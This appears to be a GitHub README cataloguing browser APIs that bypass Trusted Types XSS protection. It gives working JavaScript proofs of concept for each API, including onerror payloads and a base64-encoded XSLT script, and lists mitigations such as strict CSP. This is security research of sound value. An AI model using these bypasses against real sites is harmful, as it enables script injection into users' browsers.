 # Cursed Types

This repo contains list of DOM-based XSS sinks which are not subject to [Trusted Types](https://web.dev/trusted-types/) checks. Contributions welcome! 😊

## Blob URL

Trusted Types enforced on a document will be inherited to Blob URL when navigating to Blob URL. However, resulting document of the Blob URL contains stored XSS payload, and therefore it bypasses Trusted Types check.

[PoC](https://shhnjk.github.io/PoCs/cursed_types/blob_url.html):
```
let attackerControlledString = '<img src=x onerror=alert(origin)>';
const blob = new Blob([attackerControlledString], {type: 'text/html'});
const url = URL.createObjectURL(blob);
location.href = url;
```

### Mitigations:
- Enforce [Strict CSP](https://w3c.github.io/webappsec-csp/#strict-csp).
- There is a discussion to provide an option for creating a [secure Blob URL](https://github.com/w3c/FileAPI/issues/74).

## XHR document response

XMLHttpRequest (XHR) supports [`document` response type](https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest/HTML_in_XMLHttpRequest), which returns parsed document of XHR response instead of text.

[PoC](https://shhnjk.github.io/PoCs/cursed_types/xhr_document.html):
```
let attackerControlledString = 'data:text/html,<img id=content src=x onerror=alert(origin)>';
const xhr = new XMLHttpRequest();
xhr.onload = function() {
  document.body.appendChild(this.response.querySelector('#content'));
}

xhr.open("GET", attackerControlledString);
// The following changes response type from text to parsed document.
xhr.responseType = "document";
xhr.send();
```

### Mitigations:
- Enforce [Strict CSP](https://w3c.github.io/webappsec-csp/#strict-csp).
- Only allow trusted endpoints in [CSP connect-src](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/connect-src).

## Response API

[Response API](https://developer.mozilla.org/en-US/docs/Web/API/Response/Response) can be used in several places to serve a response of a request through Service Worker. If the Response is generated from user input, this could result in Trusted Types bypasses.

[PoC](https://shhnjk.github.io/PoCs/cursed_types/service_worker_response.html):
```
self.addEventListener('fetch', event => {
  const params = new URLSearchParams(event.request.url.split('?')[1]);
  let attackerControlledString = params.get('attackerControlledString');
  
  if (attackerControlledString) {
    init = {
      headers: {
        'Content-Type': 'text/html',
        'Content-Security-Policy': "require-trusted-types-for 'script'; trusted-types 'none';"
          
      }
    };
    event.respondWith(new Response(attackerControlledString, init));
  }
});
```

```
// Assuming legit service worker returns cached content.
caches.open("v1").then(cache => {
  let attackerControlledString = '<img src=x onerror=alert(origin)>';
  init = {
    headers: {
      'Content-Type': 'text/html',
      'Content-Security-Policy': "require-trusted-types-for 'script'; trusted-types 'none';"

    }
  };
  cache.put('xss', new Response(attackerControlledString, init));
})
```

### Mitigations:
- Enforce [Strict CSP](https://w3c.github.io/webappsec-csp/#strict-csp).

## Non-DOM API based script loading

[Non-DOM API based script loading](https://github.com/w3c/webappsec-trusted-types/issues/232) currently bypasses Trusted Types.

[PoC](https://shhnjk.github.io/PoCs/cursed_types/script_loading.html):
```
let attackerControlledString = 'data:application/javascript,alert(origin)';
import(attackerControlledString);
```

### Mitigations:
- Enforce [Strict CSP](https://w3c.github.io/webappsec-csp/#strict-csp) + serve allow-list of script endpoints in another `script-src` directive.

## SVG `<use>` element

[SVG `<use>`](https://developer.mozilla.org/en-US/docs/Web/SVG/Element/use) element takes `href` attribute, which can import an external SVG image from given URL. This currently bypasses Trusted Types check. This was found by [Masato](https://twitter.com/kinugawamasato).


[PoC](https://shhnjk.github.io/PoCs/cursed_types/svg_use.html):
```
let attackerControlledString = 
    `data:image/svg+xml,
     <svg id="x" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
       <image href="x" onerror="alert(origin)" />
     </svg>#x`;
const svg = document.createElementNS('http://www.w3.org/2000/svg', 'svg');
const use = document.createElementNS('http://www.w3.org/2000/svg', 'use');
use.setAttributeNS('http://www.w3.org/1999/xlink', 'href', attackerControlledString);
svg.appendChild(use);    
document.body.appendChild(svg);
```

### Mitigations:
- Enforce [Strict CSP](https://w3c.github.io/webappsec-csp/#strict-csp).
- This is likely to be fixed in the future ([reference](https://github.com/w3c/webappsec-trusted-types/issues/357)).

## document.createProcessingInstruction API

[`document.createProcessingInstruction`](https://developer.mozilla.org/en-US/docs/Web/API/Document/createProcessingInstruction) can create [processing instruction](https://developer.mozilla.org/en-US/docs/Web/API/ProcessingInstruction) node from given URL and content type. This node can be inserted to a document which is [valid as XML](https://twitter.com/kinugawamasato/status/1493901445103439876). Currently there is no Trusted Types check on `document.createProcessingInstruction`. This was found by [Masato](https://twitter.com/kinugawamasato).

[PoC](https://shhnjk.github.io/PoCs/cursed_types/createProcessingInstruction.xml):
```
/*
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" version="1.0">
  <xsl:output method="html" />
  <xsl:template match="/">
    <script>alert(origin)</script>
  </xsl:template>
</xsl:stylesheet>
*/
let attackerControlledString = 'data:text/xml;base64,PD94bWwgdmVyc2lvbj0iMS4wIiBlbmNvZGluZz0iVVRGLTgiPz4KPHhzbDpzdHlsZXNoZWV0IHhtbG5zOnhzbD0iaHR0cDovL3d3dy53My5vcmcvMTk5OS9YU0wvVHJhbnNmb3JtIiB2ZXJzaW9uPSIxLjAiPgogIDx4c2w6b3V0cHV0IG1ldGhvZD0iaHRtbCIgLz4KICA8eHNsOnRlbXBsYXRlIG1hdGNoPSIvIj4KICAgIDxzY3JpcHQ+YWxlcnQob3JpZ2luKTwvc2NyaXB0PgogIDwveHNsOnRlbXBsYXRlPgo8L3hzbDpzdHlsZXNoZWV0Pg==';
const pi = document.createProcessingInstruction('xml-stylesheet', `href='${attackerControlledString}' type='text/xml'`);
document.insertBefore(pi, document.firstChild);
```

### Mitigations:
- Enforce [Strict CSP](https://w3c.github.io/webappsec-csp/#strict-csp).

## XSLT

[XSLT](https://developer.mozilla.org/en-US/docs/Web/XSLT) supports [many elements](https://developer.mozilla.org/en-US/docs/Web/XSLT/Element). Trusted Types is not enforced on at least [`<xsl:text>`](https://developer.mozilla.org/en-US/docs/Web/XSLT/Element/text) element, but there are potentially more vectors. This was found by [Alex](https://twitter.com/insertScript).

[PoC](https://shhnjk.github.io/PoCs/cursed_types/xslt.html):
```
let attackerControlledString = '<img src=x onerror=alert(origin)>';
const doc = document.implementation.createHTMLDocument();
const xslt = document.createElementNS('http://www.w3.org/1999/XSL/Transform', 'xsl:stylesheet');
xslt.setAttribute('xmlns:xsl', 'http://www.w3.org/1999/XSL/Transform');
const template = document.createElementNS('http://www.w3.org/1999/XSL/Transform', 'xsl:template');
template.setAttribute('match', '/');
const output = document.createElementNS('http://www.w3.org/1999/XSL/Transform', 'xsl:output');
output.setAttribute('method', 'html');
xslt.appendChild(output);
const text = document.createElementNS('http://www.w3.org/1999/XSL/Transform', 'xsl:text');
text.textContent = attackerControlledString;
text.setAttribute('disable-output-escaping', 'yes');
template.appendChild(text);
xslt.appendChild(template);
const processor = new XSLTProcessor();
processor.importStylesheet(xslt);
const fragment = processor.transformToFragment(doc, document);
document.body.appendChild(fragment);
```

### Mitigations:
- Enforce [Strict CSP](https://w3c.github.io/webappsec-csp/#strict-csp).
